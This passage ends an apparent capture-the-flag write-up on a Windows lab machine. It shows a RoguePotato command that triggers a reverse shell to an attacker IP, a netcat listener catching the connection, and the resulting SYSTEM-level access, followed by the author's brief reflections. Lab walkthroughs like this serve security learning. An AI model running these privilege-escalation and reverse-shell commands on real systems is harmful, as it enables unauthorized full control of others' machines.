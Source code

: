 ```
//Since our attacking machine is redirecting traffic back to our 9999, we set up RoguePotato to have its fake //server on 9999 to catch the traffic.
c:\Temp>.\RoguePotato.exe -r 10.10.16.6 -l 9999 -e "C:\Temp\shell.exe"

┌──(root💀kali)-[/home/kali]
└─# rlwrap nc -nvlp 4444                                                                         
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.203.
Ncat: Connection from 10.10.10.203:54846.
Microsoft Windows [Version 10.0.17763.1282]

c:\Temp>whoami
nt authority\system
```

And we have System, again! This was arguably as difficult, if not more, than the other attack vector. This one was more technical with the port forwarding and understanding of RoguePotato, but the other one required more enumeration and understanding of Azure DevOps. Overall, really cool stuff.

-Dylan Tran 12/7/2021


